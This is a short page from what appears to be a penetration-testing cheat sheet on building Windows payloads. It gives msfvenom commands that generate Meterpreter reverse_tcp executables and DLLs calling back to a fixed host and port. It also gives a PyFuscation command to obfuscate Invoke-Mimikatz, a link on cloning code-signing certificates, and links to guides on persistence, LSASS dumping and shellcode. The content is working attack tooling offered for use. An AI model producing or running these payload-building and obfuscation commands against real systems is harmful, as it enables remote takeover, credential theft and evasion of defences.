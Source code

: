 ```yaml
---
layout: post
title: / pen / win / build
category: pen
parent: cheatsheets
modified_date: 2023-07-17
permalink: /pen/win/build
---
```


**Mitre Att&ck Entreprise**: [TA0002 - Execution](https://attack.mitre.org/tactics/TA0002/)

**Menu**
<!-- vscode-markdown-toc -->
* [msfvenom](#msfvenom)
* [sign](#sign)
* [obfuscate](#obfuscate)
* [sources](#sources)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='msfvenom'></a>msfvenom
pbuild = payload build
```sh
#? generate msfvenom payloads
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.156.1 lport=80 -f exe > /tmp/meter-rtcp-192.168.156.1-80.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.156.1 lport=80 -f dll > /tmp/meter-rtcp-192.168.156.1-80.dll
```

## <a name='sign'></a>sign
psign = payload sign
* [code signing certificates cloning](https://posts.specterops.io/code-signing-certificate-cloning-attacks-and-defenses-6f98657fc6ec)

## <a name='obfuscate'></a>obfuscate
```sh
# PyFuscation (https://github.com/CBHue/PyFuscation) bring small usefull features
python3 PyFuscation.py -fvp --ps ./Scripts/Invoke-Mimikatz.ps1
```

## <a name='sources'></a>sources

*[cocomelonc/registry-run-keys](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)
*[cocomelonc/dump-lsass](https://cocomelonc.github.io/malware/2023/05/11/malware-tricks-28.html)
*[cocomelonc/run-shellcode-via-settimer](https://cocomelonc.github.io/malware/2023/06/04/malware-tricks-31.html)
*[ired.team/write-shellcode-c](https://www.ired.team/offensive-security/code-injection-process-injection/writing-and-compiling-shellcode-in-c)
*[codeproject/write-shellcode-c++](https://www.codeproject.com/Articles/5304605/Creating-Shellcode-from-any-Code-Using-Visual-Stud)
*[byt3bl33d3r/OffensiveNim](https://github.com/byt3bl33d3r/OffensiveNim)


